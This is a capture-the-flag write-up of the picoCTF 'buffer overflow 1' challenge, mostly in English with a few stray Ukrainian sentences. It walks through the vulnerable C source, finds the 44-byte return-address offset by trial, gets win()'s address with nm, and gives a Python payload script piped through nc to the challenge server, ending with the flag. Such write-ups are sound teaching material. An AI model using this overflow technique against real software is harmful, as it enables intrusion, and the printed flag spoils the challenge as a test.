 ![Task desc](../assets/images/buffer-overflow-1_image_1.png)


As in the [buffer overflow 0](buffer%20overflow%200.md), we have a program in C and its code. Let's take a look at it:  
 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```


As you can see from the code, we need to activate the `win()` function, but there is no call to it anywhere in the code. This should be done as follows:


* After the `vuln` function is done with its work, instead of returning to `main` (from where it was called), it moved to the beginning of the `win` execution.
* The `vuln` function contains a buffer `buf[BUFSIZE]`, where `BUFSIZE 32`. It also uses the vulnerable function `gets(buf)` to read user input. That is, the excess data will be written to the memory on the stack, which is located immediately after the `buf` buffer.
* На стеку після `buf`, розташовані інші дані, як-от базовий покажчик (EBP/RBP) та адреса повернення.
  
  > [!NOTE]
  > **Return address** - processor reads it from the stack to determine where to jump to execute the code after completing the current function (vuln).


To call `win`, we need tu input in `gets(buf)` enough chars to overwrite `buf `(32 bytes), padding/base pointer, and reach the return address.




Let's run server `nc saturn.picoctf.net &lt;port> ` and try the same approach we used for buffer overflow 0:

![image_2](../assets/images/buffer-overflow-1_image_2.png)


Too short output doesn't change the address `0x804932f`, which is displayed, while a very long input makes changes: `0x61616161`.

Let's decode it with CyberChef:  

![image_3](../assets/images/buffer-overflow-1_image_3.png)




I experimented with the number of characters needed to rewrite the return address and got the following:


 

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (42 char) --> no change                       0x804932f           
...
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (43 char) --> address remains unchanged      0x804932f
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (44 char) --> address is overwritten        0x8049300  (x00 - \0 null terminator)
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (45 char) --> address is overwritten       0x8040061
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (46 char) --> address is overwritten      0x8006161
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (47 char) --> completely overwritten     0x0616161  (or 0x616161)
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (48 char) --> 1 byte 0x61(a) was added  0x61616161 (4 bytes of return address are completely overwritten)
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (49 char) --> no change                0x61616161
...
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa (50 char) -->                         0x61616161
```



The experiment shows that to completely overwrite a 4-byte return address (the format `0x...` indicates a 32-bit address), an input of **48 characters** is required. In addition, the address is overwritten from right to left, which indicates `Little Endian` byte order. This was hinted at in the task itself:


![image_5](../assets/images/buffer-overflow-1_image_5.png)



Якщо ввід довжиною 48 символів повністю перезаписує 4 байти адреси повернення:



Since the 48-character input (with indices 0-47) completely overwrites the return address:

* The byte with index 44 (45th character) is the first byte written to the return address.
* The byte with index 45 (46th character) is the second byte.
* The byte with index 46 (47th character) is the third byte.
* The byte with index 47 (48th character) is the fourth byte.

This means that **the offset from the beginning of `buf` to the beginning of the return address is 44 bytes**.


Verify it:

* Size of `buf`: 32 bytes.
* Offset = 44 bytes.
* Padding + stored EBP/RBP: 44 - 32 = 12 bytes. (This is the space between the end of `buf` and the beginning of the return address). This is likely to be 12 bytes of padding without EBP, or 8 bytes of padding + 4 bytes of EBP, or another combination depending on the compiler.
* But the exact elements on stack doesn't matter, overall offset matters.



Now we need to geuss address on `win()` in memory. We'll place this address instead of ret address that is shown in console.

I'll use tool `nm`

> [!NOTE]
> `nm` is used for **character analysis** in compiled object files, static libraries, and executable files.
>
> `nm` reads the **symbol table**, which is embedded in the binary file during compilation. 
> **symbol table** is a list of names (characters) used in a program, such as:
> 
> * Function names (such as `main, vuln, win,` or library functions such as `printf, strcpy`).
> * Names of global variables.
> * Names of static variables.


```bash
nm vuln > vuln_addresses.txt
```


![image_6](../assets/images/buffer-overflow-1_image_6.png)


Now let's create a payload. 
It will consist of pattern + `win()` address in **little endian** order. I wrote a Python-script that creates payload:

```python
import sys
import struct

OFFSET = 44

WIN_ADDRESS = 0x080491f6

padding = b'a' * OFFSET

packed_win_address = struct.pack('<I', WIN_ADDRESS)

payload = padding + packed_win_address
payload += b'\n'

sys.stdout.buffer.write(payload)

print("\nPayload (hex):", payload.hex())
```


    
![image_8](../assets/images/buffer-overflow-1_image_8.png)


```shell
python3 exploit.py | nc saturn.picoctf.net 63772
```


![image_9](../assets/images/buffer-overflow-1_image_9.png)



`picoCTF{addr3ss3s_ar3_3asy_6462ca2d}`
